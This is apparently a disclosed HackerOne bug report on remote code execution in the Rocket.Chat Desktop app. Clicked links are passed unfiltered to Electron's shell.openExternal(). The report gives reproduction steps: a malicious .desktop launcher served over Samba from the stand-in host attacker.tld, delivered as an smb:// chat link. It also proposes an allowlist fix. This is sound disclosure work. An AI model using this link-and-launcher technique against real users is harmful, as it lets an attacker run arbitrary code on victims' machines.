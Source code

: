 # Insecure use of shell.openExternal() in Rocket.Chat Desktop App leading to RCE

## Report Details
- **Report ID**: 924151
- **URL**: https://hackerone.com/reports/924151
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-07-15T10:00:26.071Z
- **Disclosed**: 2022-08-01T10:17:37.113Z

## Reporter
- **Username**: baltpeter
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Summary:** The Rocket.Chat Desktop app passes the links users click on to Electron's `shell.openExternal()` function which can lead to remote code execution.

**Description:** The filtering on the URLs passed to `shell.openExternal()` is insufficient. An attacker can craft and send a link that when clicked will cause malicious code from a remote origin to be executed on the user's system. The specific attack presented here has been tested with Xubuntu 20.04, however similar attacks are also possible on other systems, including non-Linux operating systems.

## Releases Affected:

  * Tested with latest release 2.17.10 from https://github.com/RocketChat/Rocket.Chat.Electron/releases
  * Tested with latest commit `4c06582` on the `develop` branch from https://github.com/RocketChat/Rocket.Chat.Electron

## Steps To Reproduce (from initial installation to vulnerability):

  1. Install Rocket.Chat Desktop on Xubuntu 20.04.
  2. Login and join a channel.
  3. Setup a public Samba server (at `attacker.tld` in this example) and create a public share (named `public` here). In this share, publish the following file as `pwn.desktop` and make it executable:
     
     ```ini
    [Desktop Entry]
    Exec=bash -c "(mate-calc &); xmessage \"Hello from Electron.\""
    Type=Application
     ```
  4. From another account in the same channel, send the following message with the corresponding values replaced: `smb://attacker.tld/public/pwn.desktop`
  5. Click the link and (if necessary) confirm starting the untrusted launcher.
  6. Notice the calculator and message box appearing, confirming remote code execution.

## Supporting Material/References:

  * I have attached a video of the attack to the report.

## Suggested mitigation

  * The problem is in the filter for local file paths in the preload scripts that sets up the link handler here: https://github.com/RocketChat/Rocket.Chat.Electron/blob/4c06582ba3021fcf10e6230286231d50e26e2723/src/preload/links.js#L24
  * The filter only acts as a blocklist, filtering out `file://` links. There are however plenty of other protocols depending on the system, like `smb://` as shown here. Therefore, only an allowlist can successfully prevent attacks here. Usually, allowing `http://`, `https://` and `mailto:` will be enough but you may have different requirements.

Best Regards,  
Benjamin Altpeter  
Technical University of Braunschweig, Germany

## Impact

* The attack can be triggered remotely by an attacker by simply sending a message to a channel.
  * The particular attack presented here requires user interaction. The user has to click the link (which is not obfuscated) and potentially confirm launching the executable. The last part may not be necessary depending on the particular attack vector and system the user runs.
  * This particular presented attack only works on certain Linux distributions. However, this is only due to the particular attack payload used (a Linux `.desktop` file accessed over Samba). Similar payloads will also work on other Linux distributions as well as Windows and macOS. The Electron documentation explicitly warns against using `shell.openExternal()` with untrusted content: https://www.electronjs.org/docs/tutorial/security#14-do-not-use-openexternal-with-untrusted-content
  * If the attack is executed successfully, the attacker can run arbitrary code on the user's system.
  * Patching the problem is simple and doesn't break any legitimate use cases that I can think of.

## Attachments
- rocketchat.mp4
